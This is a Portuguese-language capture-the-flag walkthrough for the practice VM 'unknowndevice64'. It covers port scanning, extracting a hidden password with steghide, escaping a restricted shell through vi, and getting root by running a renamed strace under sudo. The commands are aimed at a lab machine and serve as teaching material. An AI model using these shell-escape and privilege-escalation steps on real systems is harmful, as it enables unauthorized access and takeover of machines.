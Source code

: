 # unknowndevice64 v1.0

## Identificação e Enumeração

O primeiro passo foi identiifcar o IP da máquina:
```
# netdiscover -i vboxnet0
```
![netdiscover](img/netdiscover.png)  

Depois de encontrar o IP podemos fazer um port scan e descobrir os serviços que estão sendo executados:
```
# nmap -sV -sC -sT -p- 192.168.56.102
```
![nmap](img/nmap.png)  

Como podemos ver, há um SSH na porta 1337 e um HTTP na porta 31337, este último sendo executado com python 2.7, abrindo o browser em http://192.168.56.102:31337. Vemos a página de um site e uma frase em que se destaca a palavra 'h1dd3n'
![site](img/site.png)  

## Exploração

Olhando mais um pouco no código fonte, vemos um pedaço de código comentado com o nome de um arquivo  
![key iss hidden](img/file.png)  
Fazendo download desse arquivo a princípio não tem nada demais, apenas uma imagem normal, mas como o nome do arquivo diz (key_is_h1dd3n.jpg), achei que fosse alguma esteganografia e o software mais famoso pra isso é o steghide, então resolvi tentar extrair alguma informação da imagem passando a palavra h1dd3n como senha:
```
$ wget http://192.168.56.102:31337/key_is_h1dd3n.jpg
$ file key_is_h1dd3n.jpg
key_is_h1dd3n.jpg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, baseline, precision 8, 300x300, components 1
$ steghide extract -sf key_is_h1dd3n.jpg -p "h1dd3n"
wrote extracted data to "h1dd3n.txt".
```
Foi extraído um arquivo chamado h1dd3n.txt, quando abrimos, temos um [brainfuck](https://pt.wikipedia.org/wiki/Brainfuck)
```
$ cat h1dd3n.txt
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>+++++++++++++++++.-----------------.<----------------.--.++++++.---------.>-----------------------.<<+++.++.>+++++.--.++++++++++++.>++++++++++++++++++++++++++++++++++++++++.-----------------.
```  
Se jogarmos isso em algum decoder, a saída é: ud64:1M!#64@ud

Esse valor são as credenciais do SSH, então basta se conectar
```
$ ssh ud64@192.168.56.102 -p 1337
ud64@192.168.56.102's password: 1M!#64@ud
```
Depois de logado, temos um rbash que impede que executemos vários comandos, como ls, cd, cat. Um dos comandos que temos acesso é o 'vi' e por ele podemos ter uma shell mais completa diditando 'vi' e depois :!/bin/bash
Com essa shell é possível executar mais comandos e com o echo podemos ver que o valor da variável path:
```
$ echo $PATH
/home/ud64/prog
```
Para executar comandos de forma mais prática ao invés de escrever todo o caminho, podemos adicionar os diretórios /usr/bin e /bin à path
```
$ export PATH=/bin:/usr/bin:$PATH
```

## PrivEsc

Com a PATH setada e uma shell completa podemos dar um sudo -l e ver se existe algum SUID que execute como root
```
$ sudo -l
User ud64 may run the following commands on unknowndevice64_v1:
    (ALL) NOPASSWD: /usr/bin/sysud64
```

Temos o comando sysud64, se executarmos vemos que é o strace renomeado e tem algumas opções que podem ser passadas como parâmetros
```
$ sysud64 -h | less
```
Para nos tronarmos root, podemos executar o seguinte comando:
$ sudo sysud64 -o/dev/null /bin/bash
$ cat flag.txt